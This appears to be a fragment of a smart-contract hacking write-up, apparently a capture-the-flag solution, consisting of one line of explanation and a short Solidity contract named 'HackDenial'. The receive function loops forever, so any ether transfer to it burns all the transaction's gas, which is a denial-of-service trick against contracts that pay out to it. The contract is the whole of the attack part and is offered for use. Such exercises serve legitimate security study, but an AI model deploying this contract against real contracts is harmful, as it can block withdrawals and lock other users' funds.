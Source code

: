 use a contract that consumes all the gas of the tx

```
contract HackDenial {
    receive() external payable {
        while(true){}
    }
}
```
